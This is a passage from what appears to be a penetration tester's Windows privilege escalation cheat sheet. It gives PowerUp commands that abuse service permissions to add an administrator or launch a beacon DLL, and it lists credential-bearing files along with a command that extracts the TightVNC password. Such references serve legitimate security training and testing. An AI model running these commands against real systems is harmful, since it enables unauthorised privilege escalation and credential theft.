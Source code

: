 ## Privilege Escalation

For more things to look for (both Windows and Linux), refer to my [OSCP cheat sheet and command reference](https://cas.vancooten.com/posts/2020/05/oscp-cheat-sheet-and-command-reference/).

### PowerUp

```powershell
# Check for vulnerable programs and configs
Invoke-AllChecks

# Exploit vulnerable service permissions (does not require touching disk)
Invoke-ServiceAbuse -Name "AbyssWebServer" -Command "net localgroup Administrators domain\user /add"

# Exploit vulnerable service permissions to trigger stable beacon
Write-ServiceBinary -Name 'AbyssWebServer' -Command 'c:\windows\system32\rundll32 c:\Users\Student355\Downloads\go_dll_rtl_x64.dll,Update' -Path 'C:\WebServer\Abyss'
net stop AbyssWebServer
net start AbyssWebServer
```

### Juicy files

There are lots of files that may contain interesting information. Tools like [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) or collections like [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) may help in identifying juicy files (for privesc or post-exploitation).

Below is a list of some files I have encountered to be of relevance. Check files based on the programs and/or services that are installed on the machine.

> In addition, don’t forget to enumerate any local databases with `sqlcmd` or `Invoke-SqlCmd`!

```powershell
# All user folders
## Limit this command if there are too many files ;)
tree /f /a C:\Users

# Web.config
C:\inetpub\www\*\web.config

# Unattend files
C:\Windows\Panther\Unattend.xml

# RDP config files
C:\ProgramData\Configs\

# Powershell scripts/config files
C:\Program Files\Windows PowerShell\

# PuTTy config
C:\Users\[USERNAME]\AppData\LocalLow\Microsoft\Putty

# FileZilla creds
C:\Users\[USERNAME]\AppData\Roaming\FileZilla\FileZilla.xml

# Jenkins creds (also check out the Windows vault, see above)
C:\Program Files\Jenkins\credentials.xml

# WLAN profiles
C:\ProgramData\Microsoft\Wlansvc\Profiles\*.xml

# TightVNC password (convert to Hex, then decrypt with e.g.: https://github.com/frizb/PasswordDecrypts)
Get-ItemProperty -Path HKLM:\Software\TightVNC\Server -Name "Password" | select -ExpandProperty Password
```

***

### Tools
[carlospolop/privilege-escalation-awesome-scripts-suite: PEASS - Privilege Escalation Awesome Scripts SUITE (with colors) (github.com)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
